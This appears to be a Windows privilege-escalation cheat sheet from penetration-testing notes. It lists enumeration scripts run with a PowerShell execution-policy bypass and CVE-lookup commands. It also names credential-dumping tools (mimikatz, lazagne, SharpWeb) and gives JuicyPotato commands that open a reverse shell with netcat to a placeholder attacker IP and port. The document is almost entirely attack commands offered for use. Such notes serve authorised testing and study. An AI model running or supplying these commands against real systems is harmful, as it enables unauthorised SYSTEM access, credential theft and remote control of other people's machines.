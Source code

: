 ### Windows

#### Enumeration scripts

##### General scans

```
winPEAS.exe
windows-privesc-check2.exe
Seatbelt.exe -group=all
powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"
Powerless.bat
winPEAS.bat
```

##### Search for CVE

```
systeminfo > systeminfo.txt
python windows-exploit-suggester.py --update
python windows-exploit-suggester.py --database <DATE>-mssb.xlsx --systeminfo systeminfo.txt

systeminfo > systeminfo.txt
wmic qfe > qfe.txt
python wes.py -u
python wes.py systeminfo.txt qfe.txt

powershell -exec bypass -command "& { Import-Module .\Sherlock.ps1; Find-AllVulns; }"
```

##### Post exploitation

```
lazagne.exe all
SharpWeb.exe
mimikatz.exe
```

#### JuicyPotato (SeImpersonate or SeAssignPrimaryToken)

```
If the user has SeImpersonate or SeAssignPrimaryToken privileges then you are SYSTEM.

JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c nc.exe <IP> <PORT> -e c:\windows\system32\cmd.exe" -t *
JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c nc.exe <IP> <PORT> -e c:\windows\system32\cmd.exe" -t * -c <CLSID>

# CLSID
https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
```

#### Methodology to follow

```
https://guif.re/windowseop
https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
https://mysecurityjournal.blogspot.com/p/client-side-attacks.html
http://www.fuzzysecurity.com/tutorials/16.html
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
```

